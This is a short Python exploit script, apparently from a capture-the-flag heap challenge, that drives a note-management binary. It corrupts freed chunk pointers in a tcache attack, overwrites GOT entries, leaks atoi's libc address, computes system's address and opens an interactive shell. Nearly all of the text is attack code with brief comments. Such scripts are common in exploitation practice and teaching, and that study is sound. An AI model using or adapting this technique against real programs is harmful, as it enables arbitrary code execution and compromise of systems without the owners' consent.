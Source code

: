 ```python

# change the next pointer of freed chunk C and freed chunk D
payload = p64(0) * 3 + p64(0x21) + p64(0x602018) + p64(0) * 2 + p64(0x31) + p64(0x602070)
edit_note(1, payload)

# tcache attack
new_note(1, 0x10)
new_note(1, 0x20)

new_note(2, 0x10, p64(0x400790)) # idx 2, chunk G, change free@got to puts@plt
new_note(3, 0x20, b'a' * 8) # idx 3, chunk H, change setbuf@got to 'aaaaaaaa'

# call del_note to leak __libc_atoi address and calculate __libc_system address
io.sendlineafter("your choice: ", '2')
io.sendlineafter("index: ", '3')
msg = io.recvline()

show_qword_0x6020e0() # show array

# edit_note, change free@got to __libc_system
atoi_addr = u64(msg[8:-1] + b'\x00\x00')
LOG_ADDR('atoi_addr', atoi_addr)
system_addr = atoi_addr + 0xedc0
show_qword_0x6020e0()
edit_note(10, p64(system_addr) * 2)

# get shell
io.sendlineafter("your choice: ", '2')
io.sendlineafter("index: ", '4')

io.interactive()
```






